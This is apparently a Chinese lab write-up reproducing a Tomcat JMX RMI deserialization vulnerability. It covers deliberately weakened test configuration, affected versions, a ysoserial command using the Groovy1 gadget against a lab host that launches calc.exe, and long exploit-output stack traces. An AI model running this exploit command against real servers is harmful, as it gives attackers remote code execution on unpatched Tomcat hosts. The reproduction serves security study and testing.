



# 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：Apache Tomcat 8.0.36

# 0x02 环境搭建
靶机环境：win7_ult_x64_zh-chs

下载并解压apache-tomcat-8.0.36.zip  
下载并安装jdk-7u79-windows-x64.exe  
配置环境变量JAVA_HOME（这里有一点需要注意：配置环境变量JAVA_HOME前也可在cmd.exe下执行“java.exe -version”，原因是jdk安装完毕后会自动将java.exe及相关文件拷贝到c:\windows\system32\下）  
在conf/server.xml中添加以下语句  
```
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```
  
然后下载catalina-jmx-remote.jar包和groovy-2.3.9.jar包，放到tomcat的lib目录下  
注意：  
1、下载的catalina-jmx-remote.jar要与对应tomcat版本一致，一般这个jar在官方tomcat下载目录的extras文件夹里  
2、下载groovy，版本最好为2.3.9，官网已经不提供下载了，附上下载地址：https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9  
接着修改bin/catalina.bat，在Execute The Requested Command上面添加  
```
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```
-Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯  
-Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证  
  
最后运行bin/startup.bat启动tomcat!  
  
查看目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002，经查看，已启动  


# 0x03 利用条件
目标是否启动了JmxRemoteLifecycleListener，即是否监听端口10001，10002

# 0x04 影响版本
Apache Tomcat 9.0.0.M1 to 9.0.0.M11  
Apache Tomcat 8.5.0 to 8.5.6  
Apache Tomcat 8.0.0.RC1 to 8.0.38  
Apache Tomcat 7.0.0 to 7.0.72  
Apache Tomcat 6.0.0 to 6.0.47

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64

下载ysoserial，执行  
```
java -cp ./ysoserial-master-6eca5bc740-1.jar ysoserial.exploit.RMIRegistryExploit 192.168.149.134 10001 Groovy1 calc.exe
```
可以看到靶机上弹出了计算器  


# 0x06 踩坑记录
坑1：  
tomcat相同版本，在java 1.8.0_131下无法弹出计算机。觉得这个漏洞应该还和java版本有关。和groovy版本也有关  
坑2：  
利用成功，ysoserial输出如下  
```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.codehaus.groovy.reflection.CachedClass$3$1 (file:/root/Desktop/ysoserial-master-6eca5bc740-1.jar) to method java.lang.Object.finalize()
WARNING: Please consider reporting this to the maintainers of org.codehaus.groovy.reflection.CachedClass$3$1
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
java.lang.ClassCastException: java.lang.ProcessImpl cannot be cast to java.util.Set
        at com.sun.proxy.$Proxy9.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:443)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
        at java.util.HashMap.readObject(HashMap.java:1180)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.defaultReadObject(ObjectInputStream.java:500)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:427)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1915)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
        at sun.rmi.registry.RegistryImpl_Skel.dispatch(Unknown Source)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:409)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:267)
        at sun.rmi.transport.Transport$2.run(Transport.java:202)
        at sun.rmi.transport.Transport$2.run(Transport.java:199)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:198)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:567)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:828)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.access$400(TCPTransport.java:619)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:684)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:681)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:681)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1145)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:615)
        at java.lang.Thread.run(Thread.java:745)
        at java.rmi/sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
        at java.rmi/sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)
        at java.rmi/sun.rmi.server.UnicastRef.invoke(UnicastRef.java:380)
        at java.rmi/sun.rmi.registry.RegistryImpl_Stub.bind(RegistryImpl_Stub.java:73)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:77)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:71)
        at ysoserial.secmgr.ExecCheckingSecurityManager.callWrapped(ExecCheckingSecurityManager.java:72)
        at ysoserial.exploit.RMIRegistryExploit.exploit(RMIRegistryExploit.java:71)
        at ysoserial.exploit.RMIRegistryExploit.main(RMIRegistryExploit.java:65)
```
利用失败，ysoserial输出如下  
```
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.228.152 10001 Groovy1 calc.exe
java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
        java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
        java.lang.ClassNotFoundException: org.codehaus.groovy.runtime.ConvertedClosure (no security manager: RMI class loader disabled)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:419)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:267)
        at sun.rmi.transport.Transport$2.run(Transport.java:202)
        at sun.rmi.transport.Transport$2.run(Transport.java:199)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:198)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:567)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:828)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.access$400(TCPTransport.java:619)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:684)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:681)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:681)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1145)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:615)
        at java.lang.Thread.run(Thread.java:745)
        at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(Unknown Source)
        at sun.rmi.transport.StreamRemoteCall.executeCall(Unknown Source)
        at sun.rmi.server.UnicastRef.invoke(Unknown Source)
        at sun.rmi.registry.RegistryImpl_Stub.bind(Unknown Source)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:44)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:38)
        at ysoserial.secmgr.ExecCheckingSecurityManager.wrap(ExecCheckingSecurityManager.java:72)
        at ysoserial.exploit.RMIRegistryExploit.exploit(RMIRegistryExploit.java:38)
        at ysoserial.exploit.RMIRegistryExploit.main(RMIRegistryExploit.java:32)
Caused by: java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
        java.lang.ClassNotFoundException: org.codehaus.groovy.runtime.ConvertedClosure (no security manager: RMI class loader disabled)
        at sun.rmi.registry.RegistryImpl_Skel.dispatch(Unknown Source)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:409)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:267)
        at sun.rmi.transport.Transport$2.run(Transport.java:202)
        at sun.rmi.transport.Transport$2.run(Transport.java:199)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:198)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:567)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:828)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.access$400(TCPTransport.java:619)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:684)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$1.run(TCPTransport.java:681)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:681)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1145)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:615)
        at java.lang.Thread.run(Thread.java:745)
Caused by: java.lang.ClassNotFoundException: org.codehaus.groovy.runtime.ConvertedClosure (no security manager: RMI class loader disabled)
        at sun.rmi.server.LoaderHandler.loadClass(LoaderHandler.java:393)
        at sun.rmi.server.LoaderHandler.loadClass(LoaderHandler.java:185)
        at java.rmi.server.RMIClassLoader$2.loadClass(RMIClassLoader.java:637)
        at java.rmi.server.RMIClassLoader.loadClass(RMIClassLoader.java:264)
        at sun.rmi.server.MarshalInputStream.resolveClass(MarshalInputStream.java:214)
        at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1612)
        at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1517)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1771)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1915)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.defaultReadObject(ObjectInputStream.java:500)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:427)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
        at java.util.HashMap.readObject(HashMap.java:1180)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.defaultReadObject(ObjectInputStream.java:500)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:427)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:606)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1893)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1990)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1915)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1798)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1350)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:370)
        ... 17 more
```

# 0x07 参考链接
https://blog.csdn.net/littlehaes/article/details/104451590  
https://gv7.me/articles/2018/CVE-2016-8735/  
https://github.com/frohoff/ysoserial  
http://cn.voidcc.com/question/p-zmdzyjue-bbh.html
